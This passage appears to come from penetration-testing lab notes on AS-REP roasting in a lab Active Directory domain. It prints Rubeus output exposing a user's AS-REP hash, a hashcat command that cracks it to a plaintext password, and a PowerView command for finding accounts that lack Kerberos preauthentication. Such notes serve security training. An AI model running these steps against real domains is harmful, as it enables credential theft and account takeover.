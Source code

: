 ```
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```
+ Above shows that Rubeus identified _dave_ as vulnerable to AS-REP Roasting and displays the AS-REP hash

Next, let's copy the AS-REP hash and paste it into a text file named **hashes.asreproast2** in the home directory of user _kali_
+ We can now start Hashcat again to crack the AS-REP hash:
```
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
$krb5asrep$dave@corp.com:ae43ca9011cc7e7b9e7f7e7279dd7f2e$7d4c59410de2984edf35053b7954e6dc9a0d16cb5be8e9dcacca88c3c13c4031abd71da16f476eb972506b4989e9aba2899c042e66792f33b119fab1837d94eb654883c6c3f2db6d4a8d44a8d9531c2661bda4dd231fa985d7003e91f804ecf5ffc0743333959470341032b146ab1dc9bd6b5e3f1c41bb02436d7181727d0c6444d250e255b7261370bc8d4d418c242abae9a83c8908387a12d91b40b39848222f72c61ded5349d984ffc6d2a06a3a5bc19ddff8a17ef5a22162baade9ca8e48dd2e87bb7a7ae0dbfe225d1e4a778408b4933a254c30460e4190c02588fbaded757aa87a:Flowers1
...
```
+ Hashcat successfully cracked the AS-REP hash

To identify users with the enabled AD user account option _Do not require Kerberos preauthentication_, we can use PowerView's _Get-DomainUser_ function with the option **-PreauthNotRequired** on Windows
```
Get-DomainUser -PreauthNotRequired
```
